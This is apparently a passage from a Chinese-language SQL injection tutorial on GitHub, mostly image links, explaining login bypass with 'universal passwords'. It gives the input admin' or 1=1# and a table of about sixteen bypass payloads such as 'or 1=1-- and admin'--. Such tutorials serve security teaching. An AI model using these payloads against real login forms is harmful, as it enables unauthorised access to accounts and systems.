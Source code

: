 ![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626617746000643.png)
↓

![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626618598000540.png)
↓

![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626627957000807.png)
# 4 SQL注入万能密码

正常情况下的登录验证语句

![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626632377000146.png)
根据sql注入原理使用万能密码

```sql
$user = admin' or 1=1#
```
![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626639431000283.png)
脚本语言无法理解SQL语句，两者对查询语句处理不一致导致SQL注入，篡改了SQL语句原本逻辑，如上图。

## 4.1. 常用万能密码

|"or"a"="a|"or 1=1--|# -- --+|admin'--|
|:----|:----|:----|:----|
|')or('a'='a|'or"='|%23|admin' or 4=4--|
|")or("a"="a|'or 1=1%00|admin' or 1=1/*|admin' or '1'='1'--|
|'or 1=1--|'or 1=1/*|'or'='or'|admin' or 2=2#|
